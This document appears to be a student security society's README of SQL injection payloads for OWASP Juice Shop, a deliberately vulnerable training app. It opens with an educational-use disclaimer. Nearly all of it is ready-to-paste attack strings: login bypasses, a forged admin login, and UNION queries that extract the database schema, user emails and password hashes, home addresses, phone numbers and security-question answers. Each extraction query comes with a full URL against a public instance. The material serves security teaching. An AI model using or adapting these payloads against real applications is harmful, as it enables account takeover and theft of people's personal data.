 # Disclaimer

All scripts developed for educational purposes during sessions with Sheffield Ethical Student Hackers Society, and executed on OWASP's dedicated Juice Shop training platform. Do not execute these scripts unless you have explicit permission. SESH Code of Conduct can be found [here](https://shefesh.com/downloads/SESH%20Code%20of%20Conduct.pdf).

# Logging In

All following statements to be pasted into the 'username' field in the login form, with any arbitrary password.

**Basic SQL Injection for logging in as the first user in the database**

`' OR 1=1;--`

**Log in as a user with an email similar to 'jim'**

`' OR 1=1 AND email LIKE('%jim%');--`

**Log in as a user that does not exist in the database**

`' UNION SELECT * FROM (SELECT 200 as 'id', 'chad' as 'username', 'chadd@juice-sh.op' as 'email', 'chadd' as 'password', 'admin' as 'role', '' as 'deluxeToken' , '1.3.3.7' as 'lastLoginIp' , 'assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--`

# Data Exfiltration

## Stealing the Schema

SQL Statement:

`qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20sql,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20sqlite_master--

## Stealing emails and passwords

SQL Statement:

`qwert')) UNION SELECT email, password, '3', '4', '5', '6', '7', '8', '9' FROM Users--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20email,%20password,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users--

## Stealing names, addresses, and mobile numbers

SQL Statement:

`qwert')) UNION SELECT fullName, streetAddress, city, country, mobileNum, '6', '7', '8', '9' FROM Addresses--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20fullName,%20streetAddress,%20%27city%27,%20%27country%27,%20%27mobileNum%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Addresses--

## Stealing captcha questions and answers

SQL Statement:

`qwert')) UNION SELECT captcha, answer, '3', '4', '5', '6', '7', '8', '9' FROM Captchas--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20captcha,%20answer,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Captchas--

## Stealing security questions and answers

SQL Statement:

`qwert')) UNION SELECT q.question, a.answer, a.UserID, '4', '5', '6', '7', '8', '9' FROM SecurityQuestions q INNER JOIN SecurityAnswers a ON q.id = a.id--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20q.question,%20a.answer,%20a.UserID,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20SecurityQuestions%20q%20INNER%20JOIN%20SecurityAnswers%20a%20ON%20q.id%20=%20a.id--